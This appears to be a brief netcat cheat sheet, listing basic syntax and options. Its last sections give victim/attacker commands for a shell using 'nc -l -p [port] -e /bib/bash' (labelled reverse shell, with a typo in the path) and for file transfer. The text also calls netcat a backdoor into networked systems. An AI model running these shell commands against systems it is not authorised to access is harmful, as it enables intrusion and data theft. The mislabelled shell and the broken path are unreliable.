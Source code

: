 # NETCAT

Netcat functions as a back-end tool that allows for port scanning and port listening. In addition, you can actually transfer files directly through Netcat or use it as a backdoor into other networked systems. Partnered with a tool like Varonis Edge, you would receive an alert of any unusual activity and could then use Netcat to investigate. Lastly, Netcat is a flexible tool because of how it can be scripted for larger tasks.

** Syntax **

> # nc [options] hostname port [port]

# Options

* No DNS lookup :

> -n

* Verbose output :

> -v

* To specify the port to connect :

> -p

* For listening :

> nc -l [port_no]

* For help :

> nc -h

* For connecting to specified IP and port :

> nc [IP] [port]

* For executing commands :

> -e [command]

* For reverse shell :

      In victim's machine
      
      > nc -l -p [port] -e /bib/bash

      In attacker's machine
      
      > nc [IP] [port]

* Remote file transfering :

      In victim's machine
      
      > nc -l -p [port] > filename

      In attacker's machine
      
      > cat '/path_to_file/filename' | nc [IP] [port]


